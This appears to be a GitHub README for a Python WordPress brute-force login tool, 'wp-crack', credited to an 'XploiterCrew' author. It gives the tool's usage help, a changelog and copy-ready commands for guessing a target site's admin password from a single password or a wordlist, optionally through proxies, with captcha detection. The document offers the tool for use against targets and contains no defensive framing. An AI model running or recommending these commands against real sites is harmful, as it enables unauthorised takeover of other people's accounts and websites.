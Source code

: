 <h1 align="center">WordPress<br/>Super Fast Login</h1>

<p align="center">
  <img src="https://img.shields.io/badge/Python-3.9.0-brightgreen">
  <img src="https://img.shields.io/badge/Languange-English-yellowgreen">
  <img src="https://img.shields.io/badge/License-CC-red">
</p>

> Update from version 1.2 to version 1.3

```
WordPress Brute Force Fast Login
Author : RandsX@22XploiterCrew
E-Mail : dev@22xploitercrew.my.id

usage: python3 wp-crack.py url username [-p|-P] [-x PROXY] [-v VERBOSE]

positional arguments:
  url               url the target
  username          username target

optional arguments:
  -h, --help        show this help message and exit
  -V, --version     show program's version number and exit
  -v, --verbose     verbose mode/show username and password
                    combination for each attempt
  -p , --password   use one word password
  -P , --passlist   use a few words password
  -x , --proxy      use a socks/proxy for request (ex:
                    127.0.0.1:8080)

Please check your target first so that the login process runs
smoothly
```

## What's new in version 1.3?
- Detect captcha ***the system will automatically stop if the target brings up a captcha***
- Displays the duration of time when successful login
### updates in previous versions
- Fixed bugs
- Added a proxy feature for requests
- Using the new module ```requests``` and ```colorama```
- Easy to use
- Multiprocessing

## How to use
The super fast login feature is only available if you guess (brute force) the target using a wordlist password.
- Single password
```bash
without proxy
python3 wp-crack https://site.com username -p password

with proxy
python3 wp-crack https://site.com username -p password -x http://127.0.0.1:8000
```

- List/multi passwords
```bash
without proxy
python3 wp-crack https://site.com username -P password.txt

with proxy
python3 wp-crack https://site.com username -P password.txt -x http://127.0.0.1:8000
```

if you wish to display the password and username that was attempted to sign in into the target, use option ```-v/--verbose```

## Attention
If you find an error, please report here using menu ```Issues``` or can contribute directly with us
